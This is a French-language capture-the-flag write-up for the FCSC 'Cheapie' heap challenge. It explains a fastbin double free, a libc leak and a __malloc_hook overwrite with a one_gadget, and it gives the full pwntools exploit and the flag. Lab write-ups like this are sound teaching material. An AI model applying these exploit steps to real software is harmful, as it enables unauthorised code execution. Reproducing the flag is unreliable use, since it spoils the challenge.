

# Cheapie - pwn



-----

En lisant l'énoncé, on sait d'avance que ce sera un challenge de heap exploitation.
On lance le binaire : 
```
$ ./cheapie
Malloc exploitation playground!
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 1
Amount in bytes [16-1024]: 16
malloc(16) = 0x562565bd2260
Data to write (up to 16 bytes):
toto
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 2
Address to free: 0x562565bd2260
free(0x562565bd2260)
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 3
Address to show (16-byte sneak peak): 0x562565bd2260
00 00 00 00 00 00 00 00 10 20 bd 65 25 56 00 00
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 4
```
On remarque que l'on a déjà pas mal d'information, on nous indique l'adresse retourné par malloc, on a une fonctionnalité `debug` qui nous permet de lire 16 bytes où l'on souhaite.
La libc fournie ne dispose pas de `tcache bins`, ce qui facilitera l'exploitation.

## Ressources
https://made0x78.com/bseries-fullrelro/
https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html
https://ctftime.org/writeup/14625

## Write What Where
Malloc alloue en priorité les chunks qui sont dans les bins, ces bins sont remplis à chaque appel à `free` par l'adresse passé en argument à free.
Ce qui nous donne en pseudo-code : 
```c
a = malloc(16) // bin :
b = malloc(16) // bin :

free(a)        // bin : a
free(b)        // bin : a -> b

c = malloc(16) // bin : a
// a == c
```
Un `bin` est représenté par un pointeur vers le premier élément de ce bin.
Donc dans cette exemple `a`, puis `a` est lui même un pointeur vers le prochain élément du bin : `b`, etc.
On peut exploiter ce fonctionnement en réécrivant le pointeur d'un chunk free()'d par le biais d'un Use-After-Free ou d'un Double Free.
Pour notre challenge, on peut free() 2 fois le même chunk et déclancher ainsi un Double Free.
Ainsi, pour faire en sorte que malloc nous retourne un chunk à l'endroit que l'on veut et donc écrire ce que l'on veut, à l'endoit où l'on veut, on peut prodécer comme suit : 
```py
def www(what, where):
    a = malloc(104, "")
    b = malloc(104, "")
    free(a)
    free(b)
    free(a)

    c = malloc(104, where-0x10)
    d = malloc(104, "")
    e = malloc(104, "")
    f = malloc(104, what)
```

Pour faciliter l'exploitation, j'ai écrit quelques fonctions permettant d'exécuter `malloc`, `free` et `debug` :
```py
def malloc(size, what):
    what = p64(what) if isinstance(what, int) else what
    r.recvuntil(">>> ")
    r.sendline("1") # malloc
    r.recvuntil(": ")
    r.sendline(str(size)) # size
    res = r.recvline().split()[2]
    r.recvuntil(":\n")
    r.sendline(what)
    return int(res, 16)

def free(ptr):
    ptr = hex(ptr) if isinstance(ptr, int) else ptr
    r.recvuntil(">>> ")
    r.sendline("2") # free
    r.recvuntil(": ")
    r.sendline(str(ptr))
    r.recvline()

def read_at(addr):
    addr = hex(addr) if isinstance(addr, int) else addr
    r.recvuntil(">>> ")
    r.sendline("3") # debug
    r.recvuntil(": ")
    r.sendline(addr)
    a = r.recvline().split()

    f = lambda x: bytes(map(lambda y: int(y, 16), x))

    return [f(a[:8]), f(a[8:])]
```

Maintenant que l'on a un Write What Where, il faut savoir où écrire et quoi écrire.

## Leaker l'adresse de la libc
Comme lu dans ce [write-up](https://ctftime.org/writeup/14625), afin de leaker une adresse de la libc, on peut malloc deux `small chunks` puis free le premier et une adresse de la libc se trouvera au niveau du premier chunk : 
```
$ nc challenges2.france-cybersecurity-challenge.fr 4006
Malloc exploitation playground!
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 1
Amount in bytes [16-1024]: 136
malloc(136) = 0x562b6b2df010
Data to write (up to 136 bytes):
toto
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 1
Amount in bytes [16-1024]: 136
malloc(136) = 0x562b6b2df0a0
Data to write (up to 136 bytes):
AAAA
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 2
Address to free: 0x562b6b2df010
free(0x562b6b2df010)
  [1] - malloc()
  [2] - free()
  [3] - debug()
  [4] - exit()
>>> 3
Address to show (16-byte sneak peak): 0x562b6b2df010
78 8b 57 c7 17 7f 00 00 78 8b 57 c7 17 7f 00 00
```
En effet, 0x7f17c7578b78 est bien une adresse pointant vers la libc, car on sait que la libc est mappée après `0x7f0000000000`.
Il se trouve que notre leak se trouve 0x3c4b78 bytes après le début de la libc.
Ainsi : `libc_base = leak - 0x3c4b78`
Avec l'adresse de la base de la libc, on trouve l'adresse de `__malloc_hook`.
En effet, pour obtenir un shell, on va remplacer `__malloc_hook` par un one_gadget.

## Remplacer `__malloc_hook` par un one_gadget
Maintenant que l'on sait quoi écrire et où, on a gagné !
```py
www(p64(libc_base+one_gadget), addr_malloc_hook)
```
Cela devrait remplacer le hook de malloc par notre one_gadget, et un simple appel à malloc nous fera pop un shell.
Malheureusement, cela n'a pas marché et malloc nous retourne une erreur : `malloc(): memory corruption (fast)`
On se documente et on apprend que cette erreur peut nous être jeté si la taille du chunk qui va être retourné par malloc ne correspond pas à ce qui devrait être.
Heureusement 19 bytes au dessus de `__malloc_hook`, il y a un 0x7f qui est une taille valide pour être un fastchunk.
On corrige : 
```py
www(b"A"*19 + p64(libc_base+one_gadget), addr_malloc_hook-19)
```

----
Voici l'exploit complet : 
```py
from pwn import *
import sys

def malloc(size, what):
    what = p64(what) if isinstance(what, int) else what
    r.recvuntil(">>> ")
    r.sendline("1") # malloc
    r.recvuntil(": ")
    r.sendline(str(size)) # size
    res = r.recvline().split()[2]
    r.recvuntil(":\n")
    r.sendline(what)
    return int(res, 16)

def free(ptr):
    ptr = hex(ptr) if isinstance(ptr, int) else ptr
    r.recvuntil(">>> ")
    r.sendline("2") # free
    r.recvuntil(": ")
    r.sendline(str(ptr))
    r.recvline()

def read_at(addr):
    addr = hex(addr) if isinstance(addr, int) else addr
    r.recvuntil(">>> ")
    r.sendline("3") # debug
    r.recvuntil(": ")
    r.sendline(addr)
    a = r.recvline().split()

    f = lambda x: bytes(map(lambda y: int(y, 16), x))

    return [f(a[:8]), f(a[8:])]

def www(what, where):
    a = malloc(104, "")
    b = malloc(104, "")
    free(a)
    free(b)
    free(a)

    c = malloc(104, where-0x10)
    d = malloc(104, "")
    e = malloc(104, "")
    f = malloc(104, what)

libc = ELF("./libc-2.23.so")
cheapie = ELF("./cheapie")

r = remote("challenges2.france-cybersecurity-challenge.fr", 4006)
one_gadget_offset = 0xf1207

a = malloc(136, "") # small chunk
b = malloc(136, "")
free(a)

leak = u64(read_at(a)[0])
print(hex(leak))
libc_base = leak - 0x3c4b78
addr_malloc_hook = libc_base + libc.symbols["__malloc_hook"]

print(hex(libc.symbols["__libc_start_main"]))

info("libc_base @ {}".format(hex(libc_base)))
info("addr_malloc_hook @ {}".format(hex(addr_malloc_hook)))

www(b"A"*19 + p64(libc_base+one_gadget_offset), addr_malloc_hook-19) # -19 -> have good size for the chunk

r.recvuntil(">>> ")
r.sendline("1") # malloc
r.recvuntil(": ")
r.sendline("16")

r.interactive()
```

# flag : `FCSC{e66ad56c1e9814bb23a9e2d6c05aacae213edd6e2c2ed12d1057f3bcf897c849}`
